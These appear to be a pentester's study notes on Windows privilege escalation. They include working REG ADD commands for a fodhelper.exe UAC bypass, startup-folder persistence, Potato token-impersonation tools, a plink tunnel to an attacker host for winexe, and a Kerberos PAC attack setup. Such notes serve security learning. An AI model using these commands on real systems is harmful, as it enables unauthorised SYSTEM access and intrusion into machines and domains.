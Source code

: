 * fodhelper.exe attack
  * _PTFM: UAC Bypass - pg. 33_
  * This binary runs as high integrity on windows 10. We can leverage it to bypas UAC by the way it uses the Registry.
  * Run C:\Windows\System32\fodhelper.exe -> manage optional features -> inspect application manifest with sigcheck
  * \> cd C:\Tools\privilege\_escalation\SysinternalsSuite
  * \> sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
  * next we look at fodhelper.exe while running procmon
  * Will generate a “NAME NOT FOUND” error and indicate an potential exploitable registry entry
  * fodhelper.exe attemtps to query HKCU:\Software\Classes\ms-settings\shell\open\command, which does not appear to exist
  * \> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  * \> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG\_SZ
  * \> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
* Via Event Viewer
  * _PTFM: UAC Bypass - pg. 33_**j**

### Startup Apps

* Start up apps exist under each user as well as windows has a dir for all users
  * C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  * Files in here must be shortcut files
  * [https://www.hackingarticles.in/windows-privilege-escalation-boot-logon-autostart-execution-startup-folder/](https://www.hackingarticles.in/windows-privilege-escalation-boot-logon-autostart-execution-startup-folder/)
* Installed Apps
  * Look for exploits for specific installed applications via explotidb or searchsploit
  * Use tasklist or seatbelt
    * \>.\seatbelt.exe NonstandardProcesses
* Hot Potato
  * Attack that uxses spoofing and NTLM relay to gain SYSTEM Priv
  * Tricks windows to authenticating as the SYSTEM user to a fake HTTP server with NTLM.
  * Potato.exe exploit code binary exists!!!
  * Dont forget to compile the code wiht your reverse shell details
* Token Impersonation
  * Cannot log directly into service accounts
  * Rotten Potato - Service accounts to intercept SYSTEM ticket and use it to impersonate SYSTEM user
  * Service accounts
    * Generally configured with SeImpersonate/SeAssignPrimaryToken privileges
    * This allows the account to impersonare the access tokens of other users including SYSTEM
    * Any user with these privs can run teh toeken impersonation exploits found.
  * Juicy Potato - [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
  * Rogue Potato - [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
  * PrintSpoofer - [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* Port Forwarding
  * Sometimes its easier to run code on kali but the target is only listening on an internal port
  * Enter Plink.exe
  * winexe port connects with port 445
  * Setup
    * /etc/ssh/sshd\_config - make usre PermitRootLogin is set to Yes
    * \#service ssh restart
  * \>.\plink.exe root@\[attackerIP] -r 445:127.0.0.1:445
    * Forward remote port to local port
  * Now we run winexe at our local port on the attacker box, and plink sends it to the target, posing as an internal port
    * \#winexe \_u ‘admin%password’ //127.0.0.1 cmd.exe
* Kerberos Privilege Attribute Certificate vulnerability
  * With basic information on a domain user you can move to a domain admin by editing the PAC
    * \#git clone [https://github.com/bidord/pykek](https://github.com/bidord/pykek) /opt/pykek
    * \# apt-get install krb5-user
    * \# apt-get install rdate
    * \# rdate -n \[domain]